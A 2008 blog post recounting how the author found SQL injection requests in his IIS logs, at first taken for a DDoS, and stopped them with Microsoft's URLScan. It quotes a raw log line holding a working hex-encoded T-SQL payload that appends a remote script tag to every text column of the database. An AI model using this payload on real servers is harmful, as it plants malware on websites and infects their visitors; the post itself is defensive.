 ```yaml
---
id: 301
title: 'Accessorize your Denial of Service or SQL Injection Attack'
date: '2008-08-11T08:43:35-04:00'
author: 'Rob Bazinet'
layout: post
guid: 'https://localhost/~rbazinet/?p=301'
permalink: /iis/accessorize-your-denial-of-service-or-sql-injection-attack/
categories:
    - IIS
---
```


 I was reading some posts on Twitter the past couple days and noticed some Tweets from [Phil Haack](https://twitter.com/haacked) and [Scott Hanselman](https://twitter.com/shanselman) regarding an attack on their web[![Hacked](https://accidentaltechnologist.com/files/media/image/WindowsLiveWriter/AccessorizeyourDenialofServiceorSQLInjec_9683/Hacked_thumb.jpg)](https://accidentaltechnologist.com/files/media/image/WindowsLiveWriter/AccessorizeyourDenialofServiceorSQLInjec_9683/Hacked_2.jpg) servers for their blogs which caused a large spike in traffic. They determined it was some type of [Distributed Denial of Service (DDOS) attack](https://en.wikipedia.org/wiki/Denial_of_service_attack). I decided to check out my own server which I host this site and to my surprise, the same thing had been happening to me all day with an increase in traffic 10x.

I reviewed my server logs and saw some really large QueryStrings being sent which looked like this:

> <font face="Courier New" size="1">2008-08-08 05:51:53 W3SVC2557 SV2419 74.86.230.234 GET /asp-net/feed/ ';DECLARE%20@S%20CHAR(4000);SET%20@S=CAST(0x4445434C415245204054207661726368617228323535292C40432076617263686172283430303029204445434C415245205461626C655F43757273   
> 6F7220435552534F5220464F522073656C65637420612E6E616D652C622E6E616D652066726F6D207379736F626A6563747320612C737973636F6C756   
> D6E73206220776865726520612E69643D622E696420616E6420612E78747970653D27752720616E642028622E78747970653D3939206F7220622E7874   
> 7970653D3335206F7220622E78747970653D323331206F7220622E78747970653D31363729204F50454E205461626C655F437572736F7220464554434   
> 8204E4558542046524F4D20205461626C655F437572736F7220494E544F2040542C4043205748494C4528404046455443485F5354415455533D302920   
> 424547494E20657865632827757064617465205B272B40542B275D20736574205B272B40432B275D3D5B272B40432B275D2B2727223E3C2F7469746C6   
> 53E3C736372697074207372633D22687474703A2F2F73646F2E313030306D672E636E2F63737273732F772E6A73223E3C2F7363726970743E3C212D2D   
> 272720776865726520272B40432B27206E6F74206C696B6520272725223E3C2F7469746C653E3C736372697074207372633D22687474703A2F2F73646   
> F2E313030306D672E636E2F63737273732F772E6A73223E3C2F7363726970743E3C212D2D272727294645544348204E4558542046524F4D2020546162   
> 6C655F437572736F7220494E544F2040542C404320454E4420434C4F5345205461626C655F437572736F72204445414C4C4F43415445205461626C655   
> F437572736F72%20AS%20CHAR(4000));EXEC(@S); 80 - 69.180.0.90 HTTP/1.1 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1;+SV1;   
> +Zango+10.3.74.0) - - accidentaltechnologist.com 200 0 0 27171 1514 3328</font>

It appears this is more of a SQL Injection attack and not just simply a DDOS. You can see the EXEC(@S) where they are trying to execute some nasty SQL on my server. [Rick Strahl has also had some similar problems](https://www.west-wind.com/weblog/posts/447503.aspx) and he addresses the issue in IIS 7.0.

Not being what to do, I went to Twitter, pinged Scott to see what he did to stop the attack and he suggested [URLScan from Microsoft](https://technet.microsoft.com/en-us/security/cc242650.aspx). Of course, this is tool I used to use back in the day of supporting clients web servers to help ward off unfriendly visitors. I had forgotten all about this tool until Scott mentioned it.

I downloaded URLScan from Microsoft and promptly installed it on my web server and the DDOS attack stopped almost instantly. The current version of URLScan is 2.5 which says it only works on IIS 6.0, but a beta version of [URLScan 3.0](https://www.microsoft.com/downloads/details.aspx?familyid=EE41818F-3363-4E24-9940-321603531989&displaylang=en) is available for IIS 5.1, 6.0, and 7.0.

Thank you [Scott](https://www.hanselman.com/blog/) for the quick reply and suggestion to fix my problem.

<div class="wlWriterSmartContent" id="scid:0767317B-992E-4b12-91E0-4F059A8CECA8:c061bd53-e034-4a9a-bf2b-1578f591c863" style="padding-right: 0px; display: inline; padding-left: 0px; float: none; padding-bottom: 0px; margin: 0px; padding-top: 0px">Technorati Tags: [Hackers](https://technorati.com/tags/Hackers),[DDOS](https://technorati.com/tags/DDOS),[URLScan](https://technorati.com/tags/URLScan),[IIS](https://technorati.com/tags/IIS),[SQL Injection](https://technorati.com/tags/SQL%20Injection)</div>